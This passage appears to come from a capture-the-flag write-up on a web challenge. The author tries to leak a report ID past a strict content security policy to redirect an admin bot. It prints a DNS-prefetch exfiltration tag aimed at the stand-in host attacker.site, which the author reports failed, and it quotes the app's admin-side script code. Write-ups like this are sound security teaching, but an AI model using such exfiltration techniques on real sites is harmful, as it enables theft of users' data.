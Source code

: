 But notice that `report_id` stays consistent for the same session. If we are able to somehow leak the value, we can create a new report in the same session, with the correct element id and thus redirect the bot.

I experimented with ideas to do [blind CSS exfiltration](https://portswigger.net/research/blind-css-exfiltration). `default-src 'self'` blocks almost all cross-origin network connections without javascript, but it doesn't block DNS prefetching. With this in mind I tried exfiltrating with `<link rel="dns-prefetch" href="http://attacker.site">` and [interactsh](https://github.com/projectdiscovery/interactsh), but it didn't work because DNS prefetching is done immediately after the tag is parsed, way before any styles are applied.

I also scoured the app's API routes for possible exfiltration points, but none of them worked.

# Admin routes

Finally, I took a look into `session.html`. It's a big file at 960 lines, and I was hoping there would be something useful inside.

```html
<script nonce="{{ g.csp_nonce }}">
    // ... initialising variables ...

    document.addEventListener('DOMContentLoaded', async function() {
        await checkAuth();
        loadInitialData(); // insert message content into the DOM
        setupEventListeners();
        setupLazyLoading();
        
        if (INITIAL_USER_DATA && INITIAL_USER_DATA.is_admin) {
            await saveReportLog();
        }
    });
```

Starting from the main script initialization, I looked through all the functions. Most of them were unremarkable, but `saveReportLog` was different.

```javascript
async function saveReportLog() {
    const allMessages = messagesContainer.querySelectorAll('.message.user, .message-pair');
    let userMessage = null;
    
    for (let i = allMessages.length - 1; i >= 0; i--) {
        const messageElement = allMessages[i];
        
        if (messageElement.classList.contains('user')) {
            const proseContent = messageElement.querySelector('.prose');
            if (proseContent) {
                userMessage = proseContent.innerHTML.trim();
                break;
            }
        }
        
        if (messageElement.classList.contains('message-pair')) {
            const userDiv = messageElement.querySelector('.justify-end .prose');
            if (userDiv) {
                userMessage = userDiv.innerHTML.trim();
                break;
            }
        }
    }

    if (!userMessage) {
        console.warn('No user message found to save report log');
        return;
    }
```